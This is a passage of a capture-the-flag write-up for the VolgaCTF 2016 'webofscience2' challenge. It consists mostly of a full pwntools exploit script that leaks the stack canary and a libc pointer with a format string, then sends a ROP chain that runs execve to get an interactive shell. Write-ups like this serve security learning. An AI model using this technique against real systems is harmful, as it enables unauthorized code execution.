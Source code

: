 ## Final payload

Now we have everything we need to create the payload:

* 136 bytes of padding (there was the shellcode in the previous challenge)
* canary
* 24 bytes of padding
* ropchain

{% highlight python %}
#!/usr/bin/env python2

from pwn import *

HOST = 'webofscience2.2016.volgactf.ru'
PORT = 45679

libc_offset= 3924288

leak = '|%5$p|%43$p|'

r = remote(HOST, PORT)

log.info('Sending leak')
r.sendline(leak)
data = r.recvuntil('your response:')
data = data.split('|')
libc_ptr = int(data[1], 16)
canary = int(data[2], 16)
base_addr = libc_ptr - libc_offset
log.info('leaked canary: 0x{:x}'.format(canary))
log.info('leaked libc ptr: 0x{:x}'.format(libc_ptr))
for i in range(0,9):
    log.info('Sending calc #{}'.format(i))
    r.sendline(str(i))
    r.recv()
log.info('Sending payload')
payload = 136 * 'A' + p64(canary) + 3 * p64(0x0)
# 0x000000000001b218 : pop rax ; ret
payload += p64(base_addr + 0x1b218)
payload += p64(59)
# 0x0000000000022b1a : pop rdi ; ret
payload += p64(base_addr + 0x22b1a)
payload += p64(base_addr + 1559771)
# 0x0000000000024805 : pop rsi ; ret
payload += p64(base_addr + 0x24805)
payload += p64(0)
# 0x0000000000001b8e : pop rdx ; ret
payload += p64(base_addr + 0x1b8e)
payload += p64(0)
# 0x00000000000c1e55 : syscall ; ret
payload += p64(base_addr + 0xc1e55)
r.sendline(payload)
r.recv()
r.clean()
r.interactive()
{% endhighlight %}


[gcc]: http://archive.ubuntu.com/ubuntu/pool/main/g/gcc-4.8
[libc]: http://packages.ubuntu.com/trusty/libc6
[libc2]: http://archive.ubuntu.com/ubuntu/pool/main/e/eglibc/
[ropgadget]: https://github.com/JonathanSalwan/ROPgadget